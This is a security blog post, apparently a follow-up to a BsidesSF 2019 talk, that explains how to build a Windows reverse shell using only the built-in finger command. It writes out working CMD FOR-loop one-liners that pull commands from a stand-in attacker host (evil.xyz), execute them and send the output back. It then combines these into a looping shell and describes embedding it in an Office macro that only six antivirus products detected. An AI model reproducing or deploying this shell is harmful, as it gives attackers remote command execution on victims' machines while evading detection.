


Backdoor on Windows with Finger
Introduction
This is a follow-up post to one of my presentations at BsidesSF 2019. It is also a continuation of a previous blog post where it showed how you can use WHOIS and Finger on Unix systems for backdoors. In this post, the focus will be on how it can similarly be done on a Windows system.
Finger comes pre-installed on Windows. According to Microsoft’s documentation, the options are very limited. For example, it does not support using any other ports than the standard port 79. In addition, Windows' CMD is much more limiting than a standard Unix shell and the goal is to do this without using a scripting environment; i.e., no Powershell, VBScript or JScript allowed.
The method to the madness
To achieve our goal of creating a reverse shell using only finger and Windows' command line, a number of things need to be done.
- Get command from the server.
- Extract the command from the output from finger.
- Execute the command and capture the output.
- Send the command output back to the server.
Get the command from the server
One of the limiting functionality in CMD, is how you can assign values to variables.
It’s only possible within a few operations. One is the FOR command. This command
allows for executing a command and assign the output to an iteration variable. By
default, it breaks the value on whitespace character but the argument delims=^=^
makes it instead of break on a newline. So the snippet below will assign the output
from the finger command to %x line-by-line.
FOR /F delims^=^ %x IN ('finger "message to server"@evil.xyz') DO (## Action on each line ##)
As with finger for Unix, the first lines are information to the user that needs to
be skipped. Luckily, the FOR command has an argument to skip. So the command can
be fixed to only capture the command instruction from the server and execute it.
FOR /F delims^=^ skip^=^2 %x IN ('finger "message to server"@evil.xyz') DO (
%x
)
Capture the command output and send it to the server
To capture the output from the command, we can use a second FOR loop. This one
executes the command from the server and captures the output line by line. For
each output line, executes a new instance of finger that sends the output back.
FOR /f "delims=^" %y IN ('%x') DO finger "%y"@evil.xyz
Putting it all together
A functional reverse shell can be achieved by wrapping the two FOR loops with
an infinite loop:
FOR /L %N IN () DO (
for /F delims^=^ skip^=2 %x IN ('finger "cmd"@evil.xyz') DO
FOR /f "delims=^" %y IN ('%x') DO
finger "%y"@evil.xyz
)
Voila! A reverse shell on Windows using three FOR loops and finger.
PoC
As a PoC, the shell technique can be used in an Office macro to download and execute commands. The image below shows the macro.

The first scan on VirusTotal resulted in detection of six AV products:
